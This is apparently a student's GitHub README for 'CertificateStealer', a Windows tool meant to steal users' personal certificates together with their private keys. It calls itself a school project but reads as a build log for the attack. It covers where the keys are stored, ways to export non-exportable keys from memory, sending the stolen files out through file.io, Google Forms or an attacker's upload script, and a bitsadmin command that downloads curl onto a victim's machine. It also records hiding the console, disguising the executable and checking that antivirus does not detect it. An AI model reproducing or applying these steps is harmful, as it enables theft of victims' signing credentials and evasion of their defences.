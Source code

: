 # CertificateStealer
This is school Project - learning purpose only !


# <img src="./doc/SnakeBite.png" width="600" alt="SnakeBite">


TIMELINE:
------
The sooner the better ! <br>
I expect a lot of glitches and errors in the process <br>

TO DO:
------
- Cut audio record of project specifications to just this project.      ✅
- Make UML diagrams of program (UseCase diagram, Class diagram).        ❌
- Do research about certificates (storing, extracting, types,...).      ✅
- Make first testing version of program extracting certificates.        ✅
- Debug the first version.                                              ✅
- Rebuild program, upgrade version.                                     ✅
- Add transfering to (google disk, email, server, ....)                 ✅
- Checking/Installing cURL to computer                                  ✅
- Hide console (or show fake information)                               ✅
- Hide code (deobfuscate code).                                         ❌
- Try detecting with different antiviruses.                             ✅ - (defender, browser)
- Wrap the code to some application (make it background process).       ❌
- Final tests.                                                          ✅
- .....


Rewriten audio :
------
- certificates in operating systems (certmgr) - target on Personal certificates
- create malware which exports certificate WITH PRIVATE KEY ! (automaticaly) it can be circumvent by some techniques

minimal:

- automatic export of Personal certificates with PRIVATE KEYs

expanded:
- transport (send) exported(stolen) certificates to hacker (email, google drive, network,...) - try to HIDE it !
- exported certificates protect with password (easiest, widnows, in exporting phase set password) or some other techniques - to not be used by someone else (encrypt canal which we use to send them)

IMPORTANT experience gained after research:
------
Dont use Python (just Mimikatz is good for this job), it can be used but just for calling powershell functions. So instead of python use POWERSHELL ?

Personal certificates are stored in `dir cert:\currentuser\my` , you can list them and then export with easy powershell script, but certificates must have flag "exportable" otherwise they canot be exported with this method. In the other words certificates marked as NonExportable canot be exported through powershell function `Export-PfxCertificate`, so we have to use another method.

You can also find certificates in `%SystemDrive%\Documents and Settings\All Users\Application Data\Microsoft\Crypto\RSA\MachineKeys` and in registry `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\SystemCertificates\My\Certificates`, from registry you can export it and then on another computer modify registry to import certificate, but it canot be use to signing. It is possible to repair these imports with poweshell command `certutil -repairstore my <certificate-fingerprint>` - *NOT TESTED*.

Because we want export private keys too, we can use `Mimikatz` for exporting certificates with private keys, but it is detected by antiviruses.

So second option is to dump the private key from memory of running computer by ourself. There is one project on github which already did it (<b>just WIN7 and lower</b>) [github](https://github.com/luipir/ExportNotExportablePrivateKey) + for corectly working we need to get [vcredist_x86_2010.exe](https://www.microsoft.com/en-us/download/details.aspx?id=26999) for compiling `exportrsa/Release/exportrsa.exe`.

+ TESTED, worked + exported certificate is secured with password. - ideal state

❗❗❗

Windows 10 version of Exporting non exportable certificate: [github](https://github.com/iSECPartners/jailbreak/tree/master)

Need to check code and use just what we need + wrap for more functions. ✅

+ TESTED                                                                ✅
+ Rewritten to just needed functions (*trymyown* folder)                ✅

Transfering certificates (options):
------
- Upload on https://www.file.io/ (file gets auto delete after one download)
    - Then copy share link and write it in google forms: https://forms.gle/QSG9oaR2XfSXptkAA
    - And just Send form :) - it should work anonymously without login.
- http://leteckaposta.cz/ (30 days then remove)
    - same as above, link for downloading can be used more times.
- Own domain upload
    - *working* with my own domain and PHP file upload script on it. (need to handle how to get cURL on victims computer to be able to use it....) Win10 and laters should default have it. 

### Download cURL with cmd line:

- `bitsadmin /transfer curlDownloadJob /download /priority high https://curl.se/windows/dl-8.1.1_1/curl-8.1.1_1-win64-mingw.zip C:\Users\user\Download\curl.zip`
- extract to folder in system
- add to PATH `setx /M PATH "%PATH%;C:\curl"` (need admin rights not cleaver, must be run as ADMIN)
- reopen cmd and it can be used :)


## Build .exe program one clik run:

- Need to modify Visual Studio settings.
- Switch to "Release"
- Go to configuration
- Project Properties -> C/C++ -> Code Generation
- Here change "Runtime Library" to "/MT Multi-threaded" for static building (it will include all needed C++ libs in .exe, which will cause running on computer without instaled Visual Studio.)
- Then Folder Release is created, just file .exe is needed (file .pdb is for handing errors like programer/developer, not needed for users.)
- Wrap Release folder and send --> Woala Program is working on other computer.


### Add own icon:
- Used "Resource Hacker".
- Load .exe file.
- In tree select "Icon / Icon Group" and replace it.
- If there is not Icon in tree  structure -> add new Binary, select .ico file, rename *.ico and select it is Icon/ Icon Group.
- Save / or Save as to apply chnages, now the .exe has your icon and code is not corupted.

## Antivirus testing:

- Browsers                              ✅      -> added password to ZIP
- Microsoft Defender                    ✅      -> clean no sus
- ...                                   ❌✅    -> 
- ...                                   ❌✅    -> 


# Finall:

- Finall executable application is built in folder `finall` 